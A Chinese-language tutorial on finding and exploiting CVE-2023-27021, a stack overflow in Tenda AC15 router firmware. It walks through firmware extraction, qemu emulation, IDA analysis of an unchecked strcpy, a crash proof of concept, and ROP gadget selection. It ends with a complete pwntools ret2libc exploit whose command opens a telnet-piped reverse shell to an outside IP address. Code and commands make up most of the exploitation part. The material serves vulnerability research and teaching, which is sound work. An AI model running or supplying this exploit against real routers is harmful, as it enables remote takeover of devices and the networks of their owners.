路由器通用 0day 漏洞挖掘及 RCE 思路

- - -

# 路由器通用 0day 漏洞挖掘及 RCE 思路

## 一、概述

近期 tenda 系列路由器频繁出现漏洞，下面以 CVE-2023-27021 漏洞为例，简要描述下对于刚入门 IOT 安全的人来说怎样去挖掘一个路由器的栈溢出漏洞，并深入利用实现 RCE

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706756950697-cd997a3c-11b1-4eba-94e1-cefaa1f92f2d.png)

通常我们挖掘固件漏洞，首先要拿到固件，腾达官网提供用于更新的固件包，我们去官网下载固件即可。最可能容易发现漏洞的固件，可能是某些上一个更新版本比较早的固件，我们可以着重针对这些固件进行漏洞挖掘。此次我们在 tenda AC15 V15.03.05.19 上复现下怎么挖到这个漏洞，官网下载链接为：[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)

## 二、环境搭建

固件下载后通常是.bin 后缀的二进制文件，首先需要做的是使用 binwalk 解包，提取出对应的文件系统

建议不要直接使用 apt install binwalk 安装，可能由于缺乏某些依赖包导致解包失败，可以参考[https://blog.csdn.net/u013071014/article/details/122426769](https://blog.csdn.net/u013071014/article/details/122426769) 进行完整的 binwalk 安装

使用如下命令进行解包

```plain
binwalk -Me US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin --run-as=root
```

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706604461752-8113ab05-e810-423e-b9cf-1be41106848b.png)

解出来的 squashfs-root 文件夹即路由器的文件系统，根据目录结构看是一个类 linux 的系统[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706604605311-98d50eb4-0692-4f56-828b-9090d39daec7.png)

tenda 路由器的 web 启动程序通常是 bin 目录下的 httpd 文件，我们的漏洞挖掘也是通过这个文件入手。

使用 file 命令查看文件的类型，是一个 arm 架构的 32 位小端的程序

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706604633312-d94b19bf-e298-4581-8a03-27f29a269081.png)

网上很多固件模拟的方法，这里推荐使用 qemu-arm-static 启动 httpd

apt 安装 qemu

```plain
apt install qemu
apt install qemu-user-static
sudo apt install qemu-system
```

建立虚拟网桥

```plain
sudo apt install uml-utilities bridge-utils
sudo brctl addbr br0
sudo brctl addif br0 ens32
sudo ifconfig br0 up
sudo dhclient br0
```

使用 qemu 模拟启动 httpd

```plain
cp $(which qemu-arm-static) .
sudo chroot ./ ./qemu-arm-static ./bin/httpd
```

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706604737016-66a9f673-aafb-44ce-9ec2-8bccd5570635.png)

访问 ip 发现返回 404

[](https://intranetproxy.alipay.com/skylark/lark/0/2023/png/94156442/1702995792127-c152e2cc-cbcb-4642-bcc3-057be51a504b.png)

```plain
mkdir webroot
cp -rf ./webroot_ro/* ./webroot/
```

刷新页面即可[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706604876555-e9b62789-41ff-4cfd-8de4-01c493ec14c4.png)

## 三、栈溢出漏洞挖掘

使用 IDA 逆向 httpd 文件，寻找可以造成栈溢出的函数。挖掘栈溢出漏洞，通常我们要从一些危险函数入手，第一类函数是 scanf，可能产生格式化字符串溢出漏洞，第二类是 strcpy、strcat、sprintf 等字符串拷贝函数。根据 tenda 的历史 CVE 漏洞，strcpy 函数产生的漏洞比较多，所以我们从 strcpy 入手举例。

搜索 strcpy，查看其交叉引用

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706605050581-2b21330b-4b03-475e-bab5-6e25b818c791.png)[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706605062185-efeff106-fef1-4a01-981c-a93ff1fbe21c.png)

有 160 个函数，我们可以逐个进去 F5 看下代码。

我们找到了这个 CVE 对应的 formSetFirewallCfg 这个函数，这里我们看到 websGetVar 传入的 firewallEn 赋值给 s，后续没有对 s 进行长度校验，直接 strcpy 拷贝到了 v3 开辟的栈空间中，是一个明显的栈溢出漏洞。

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706714083504-fdda6dc6-1b36-4596-8581-f0109c5b2d55.png)

接下来就是要验证下 formSetFirewallCfg 这个函数是否用户可控，是否有利用的条件。

查看下 formSetFirewallCfg 的引用

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706714208224-d790da26-dada-4509-b626-83b344f4ef97.png)

结合 web 交互的 http 流量包以及 websGetVar 函数名，可以猜到 formSetFirewallCfg 是 web 传参用的函数，openSchedWifi 就是构造 url 访问的接口名，一级目录名为 goform。

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706605993344-db9473ca-e346-4af0-b09d-84560560afe4.png)

因此，我们构造请求，尝试下是否可以触发溢出

```plain
import requests

url = "http://47.98.137.248/goform/SetFirewallCfg"
header = {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": "password=rtp5gk"
}

payload = "A" * 500
data = {"firewallEn": payload}
response = requests.post(url, headers=header, data=data, timeout=5)
response = requests.post(url, headers=header, data=data, timeout=5)
print(response.text)
```

发送请求后，设备已经拒绝服务，证明漏洞确实存在

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706607378704-d1c44400-a718-4257-a58e-f57151c606fa.png)

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706607393227-e29d924d-8d36-4df9-92d4-5689a6dedf09.png)

## 四、漏洞利用

实现栈溢出之后，我们进一步尝试是否可以 rce，使用 checksec 查看下二进制文件编译的保护情况

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706607477032-0a4f9f81-cde3-4036-bfa9-4c4f235b7fce.png) 发现只开启了 NX enabled，无法直接执行栈中的 shellcode，所以利用的思路是通过构造 rop 链构造相应参数来执行 system 命令，来拿到 shell。

### (一) 配置 gdb 动态调试环境

首先是配置 gdb 动态调试环境，安装 gdb-multiarch 及 pwndbg 插件。gdb-multiarch 是一种支持调试多种架构程序的 gdb

安装可参考：[https://www.cnblogs.com/gd/p/16180128.html](https://www.cnblogs.com/LY613313/p/16180128.html)

调试程序

```plain
chroot ./ ./qemu-arm-static -g 9999 ./bin/httpd
```

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706685800610-330c94d8-8d01-4cda-a228-a8be6bf64014.png)

另开一个终端，使用 gdb-multiarch 执行

```plain
gdb-multiarch ./bin/httpd
```

进入 gdb 后，将架构转为 arm 架构

```plain
set architecture arm
```

远程连接 9999 端口，开始调试漏洞程序

```plain
target remote :9999
```

pwndbg 中 c 运行程序

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706685996643-387d9af8-df73-47f0-8688-4934e8e7fc0f.png)

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706686053698-c5741571-213b-43c3-b655-3f4ef898a24a.png)

python 发送 poc，成功的覆盖 PC 寄存器的值，程序奔溃中断。

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706688769582-bc80cca9-faf3-472a-bbcf-072155c5833c.png)

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706688829095-eb82f3c2-c071-490e-964f-e20262c6141f.png)

到此调试环境已经准备就绪

### (二) 漏洞利用

#### 1\. 利用思路

由于程序开启了 NX 保护，无法直接执行栈中的 shellcode，在程序的可执行的段中通过 ROP 技术执行我们的 shellcode。常用的的 ROP 技术包括 ret2text，ret2shellcode，ret2syscall，ret2libc。

此处我们采用 ret2libc 执行，ret2libc 是指将程序返回 libc，直接调用 libc 中的 system 函数执行命令。

具体思路如下：

-   找 libc 的基地址
    
-   计算 libc 中 system 函数的地址
    
-   控制 r0 寄存器，在 r0 中写入 system 函数要执行的参数，即我们要执行的 shellcode。
    
-   控制某寄存器，将 system 的地址写入某寄存器，并将 system 地址弹出到 PC 寄存器，使程序流执行 system 函数。
    

#### 2\. 计算溢出所需偏移量

计算偏移量的方法有很多，可以利用反汇编之后的静态代码计算，也可以通过动态调试得出，这里利用 cyclic 计算

首先，利用 cyclic 生成一个长度 500 的随机字符串，替换之前的 payload，重新调试

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706692209294-2186a878-78cd-4030-bafb-d2ea5d8e3792.png)

利用 cyclic 计算偏移量，cyclic -l PC 寄存器的值或者地址，得出偏移量是 52

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706692342748-73a60ba0-ac2d-4091-aff6-e92060485ff7.png)

#### 3\. 寻找 libc 基址

在函数 formSetFirewallCfg 入口打个断点，continuing 运行程序，发送上文中的 poc，停到断点处

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706713212378-8a9c2693-2948-45d7-9dc0-7eb418d1ae0d.png)

vmmap 指令打印内存信息，看到没有 libc，猜测<explored>这里就是 libc，后续测试证明的确是。libc 地址为 0xff58c000</explored>

```plain
libc_base_addr=0xff58c000
```

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706713418828-289e6240-6225-4604-8ae3-9f8037798ed6.png)

#### 4\. 计算 libc 中 system 函数地址

```plain
from pwn import *

libc = ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
```

因此

```plain
system_addr = libc_base_addr + system_offset
```

#### 5\. 寻找 gadget

使用 ROPgadget，在 libc 中找一个可以控制 r0 的 gadget

```plain
ROPgadget --binary ./lib/libc.so.0 | grep "mov r0, sp"
```

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706708325941-1e45ea07-e831-4a21-a106-1fec6c1889e5.png)

可以看到可以利用的 gadget 非常多，随便选一个即可，比如 0x00040cb8，这个比较简短

```plain
move_r0= libc_base_addr+ 0x00040cb8
```

再在 libc 中找一个可以 pop 到 r3 的 gadget

```plain
ROPgadget --binary ./lib/libc.so.0 --only "pop"|grep r3
```

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706708611927-9f0653e9-f44e-4ed2-bd47-0989ef7e1a2e.png)

还是选择这条比较短的，0x00018298

r3\_pop= libc\_base\_addr + 0x00018298

#### 6\. 构造利用脚本 getshell

最终的 payload：

```plain
payload = cyclic(52) + p32(r3_pop) + p32(system_addr) + p32(move_ro) + cmd
```

完整的 exp 如下

```plain
from pwn import *
import requests

url = "http://47.98.137.248"
header = {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Cookie": "password=bcf33de30ebf57e4d3785c08adec4b85cvztgb"
}

# 命令执行利用 telnet 反弹 shell
cmd = b"echo test;telnet 101.43.8.96 4444 | /bin/sh | telnet 101.43.8.96 5555"

libc_base_addr = 0xff58c000
libc = ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]

system_addr= libc_base_addr + system_offset
r3_pop =libc_base_addr + 0x00018298
move_r0= libc_base_addr+ 0x00040cb8

payload = cyclic(52) + p32(r3_pop) + p32(system_addr) + p32(move_r0) + cmd

data = {"firewallEn": payload}
response = requests.post(url + "/goform/SetFirewallCfg", headers=header, data=data)
print(response.text)
```

由于路由器一般不支持 bin/bash 命令，选择用 telnet 来 getshell。VPN 上分别监听 4444 和 5555 端口，执行脚本

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706755894334-83201705-ef4f-41e6-9f9c-735c80d417ee.png)

nc 4444 端口监听已经建立连接，输入命令，5555 监听端口处获得回显

[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706755864243-1a71c01e-a2bb-470e-982b-461b45f8db61.png)[](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706756078053-2dbef7ed-7235-4bf9-94f4-53f38d1e06c3.png)
